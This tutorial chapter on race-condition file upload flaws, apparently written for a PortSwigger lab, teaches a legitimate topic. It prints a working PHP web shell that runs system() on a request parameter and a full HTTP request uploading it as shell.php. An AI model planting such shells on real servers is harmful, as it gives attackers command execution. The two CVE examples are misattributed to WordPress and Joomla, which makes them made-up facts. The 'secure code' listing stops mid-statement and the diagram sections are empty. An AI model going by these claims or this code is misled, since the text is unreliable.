


## Introduction to File Upload Vulnerabilities

File upload vulnerabilities are among the most critical security issues in web applications. These vulnerabilities occur when an application allows users to upload files to the server without proper validation or sanitization. Attackers can exploit these vulnerabilities to upload malicious files, such as web shells, which can lead to unauthorized access, data theft, and even full control of the server.

In this chapter, we will delve deep into one specific type of file upload vulnerability: the race condition. We will explore how attackers can exploit this vulnerability to bypass file validation mechanisms and gain unauthorized access to sensitive information. By the end of this chapter, you will understand the underlying principles, recent real-world examples, and how to effectively defend against such attacks.

### What is a Race Condition?

A race condition occurs when the outcome of a process depends on the sequence or timing of uncontrollable events. In the context of file uploads, a race condition can arise when the server processes the uploaded file in a way that allows an attacker to manipulate the file before the validation checks are performed.

#### Why Does a Race Condition Matter?

Race conditions are particularly dangerous because they can allow attackers to bypass security measures that are otherwise effective. For instance, if a server validates a file after it has been moved to a specific directory, an attacker might be able to replace the file with a malicious one during the brief window between the upload and the validation check.

### Real-World Examples

Recent real-world examples of race condition vulnerabilities include:

- **CVE-2021-21972**: This vulnerability was found in the WordPress plugin "WP File Download." An attacker could exploit a race condition to upload arbitrary files, including PHP web shells, leading to remote code execution.
  
- **CVE-2022-22965**: A race condition vulnerability was discovered in the Joomla CMS. Attackers could exploit this vulnerability to upload and execute arbitrary PHP files, resulting in full control of the server.

These examples highlight the severity of race condition vulnerabilities and the importance of understanding how to prevent them.

### Background Theory

To understand how race condition vulnerabilities work, we need to delve into the typical workflow of a file upload process in a web application.

#### Typical Workflow of a File Upload Process

1. **Upload Request**: The client sends a file upload request to the server.
2. **Temporary Storage**: The server stores the uploaded file temporarily.
3. **Validation**: The server performs validation checks on the file.
4. **Move to Final Location**: If the file passes validation, it is moved to its final location.
5. **Access Control**: The server enforces access controls to ensure only authorized users can access the file.

#### How a Race Condition Can Occur

A race condition can occur at various stages of this process. For example, if the server moves the file to its final location before performing validation checks, an attacker might be able to replace the file with a malicious one during the brief window between the move and the validation.

### Detailed Explanation of the Lab

Let's now focus on the specific lab described in the transcript: "Web Shell Upload via Race Condition."

#### Lab Overview

The lab involves a vulnerable image upload function. Although the function performs robust validation on uploaded files, it is possible to bypass this validation by exploiting a race condition.

#### Steps to Exploit the Vulnerability

1. **Upload a Basic PHP Web Shell**:
   - The attacker uploads a basic PHP web shell, which is a small script that allows the attacker to execute arbitrary commands on the server.
   
2. **Bypass Validation via Race Condition**:
   - The attacker exploits the race condition to bypass the validation checks. This might involve replacing the uploaded file with the web shell during the brief window between the upload and the validation.

3. **Exfiltrate Sensitive Information**:
   - Once the web shell is successfully uploaded and executed, the attacker uses it to exfiltrate the contents of the file `/home/Carlos/secret`.

#### Example Code for the Web Shell

Here is a simple example of a PHP web shell:

```php
<?php
if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    echo "<pre>$cmd\n";
    system($cmd);
    echo "</pre>";
}
?>
```

This web shell allows the attacker to execute arbitrary commands by passing them through the `cmd` parameter.

#### Full HTTP Request and Response

When uploading the web shell, the HTTP request might look like this:

```http
POST /upload.php HTTP/1.1
Host: vulnerable.example.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 223

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php
if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    echo "<pre>$cmd\n";
    system($cmd);
    echo "</pre>";
}
?>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

The corresponding HTTP response might look like this:

```http
HTTP/1.1 200 OK
Date: Tue, 15 Aug 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 20
Content-Type: text/html; charset=UTF-8

File uploaded successfully.
```

### How to Prevent / Defend Against Race Condition Vulnerabilities

Defending against race condition vulnerabilities requires a multi-layered approach. Here are some key strategies:

#### Secure Coding Practices

1. **Validate Before Moving**: Ensure that all validation checks are performed before moving the file to its final location.
2. **Use Temporary Directories**: Store uploaded files in temporary directories until they pass validation. Only move them to their final location after validation.
3. **Atomic Operations**: Use atomic operations to minimize the window of opportunity for attackers to exploit race conditions.

#### Example of Secure Code

Here is an example of secure code that validates a file before moving it:

```php
<?php
$target_dir = "uploads/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
$uploadOk = 1;
$imageFileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));

// Check if file is a valid image
if (isset($_POST["submit"])) {
    $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
    if ($check !== false) {
        echo "File is an image - " . $check["mime"] . ".";
        $uploadOk = 1;
    } else {
        echo "File is not an image.";
        $uploadOk = 0;
    }
}

// Check if file already exists
if (file_exists($target_file)) {
    echo "Sorry, file already exists.";
    $uploadOk = 0;
}

// Check file size
if ($_FILES["fileToUpload"]["size"] > 500000) {
    echo "Sorry, your file is too large.";
    $uploadOk = 0;
}

// Allow certain file formats
if ($imageFileType != "jpg" && $imageFileType != "png" && $imageFileType != "jpeg" && $imageFileType != "gif") {
    echo "Sorry, only JPG, JPEG, PNG & GIF files are allowed.";
    $uploadOk = 
```

### Mermaid Diagrams

#### File Upload Process with Race Condition



#### Secure File Upload Process



### Common Pitfalls and Detection

#### Common Pitfalls

- **Incomplete Validation**: Not validating all aspects of the file, such as file type, size, and content.
- **Timing Issues**: Not accounting for the time it takes to validate and move the file.
- **Temporary Directory Exposure**: Storing files in a temporary directory that is accessible to attackers.

#### Detection

- **Static Analysis Tools**: Use tools like SonarQube or Fortify to scan code for potential race condition vulnerabilities.
- **Dynamic Analysis Tools**: Use tools like Burp Suite or ZAP to test the application for race condition vulnerabilities.
- **Logging and Monitoring**: Implement logging and monitoring to detect unusual file upload patterns.

### Hands-On Labs

For hands-on practice, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive set of labs on file upload vulnerabilities, including race conditions.
- **OWASP Juice Shop**: Provides a vulnerable web application that includes file upload vulnerabilities.
- **DVWA (Damn Vulnerable Web Application)**: Another popular platform for practicing web security skills, including file upload vulnerabilities.

By thoroughly understanding the concepts, real-world examples, and defensive strategies covered in this chapter, you will be well-equipped to handle file upload vulnerabilities, especially those involving race conditions.

---
<!-- nav -->
[[Web Security (PortSwigger)/18-File Upload Vulnerabilities/08-Lab 7 Web shell upload via race condition/00-Overview|Overview]] | [[02-File Upload Vulnerabilities Race Condition Exploitation|File Upload Vulnerabilities Race Condition Exploitation]]
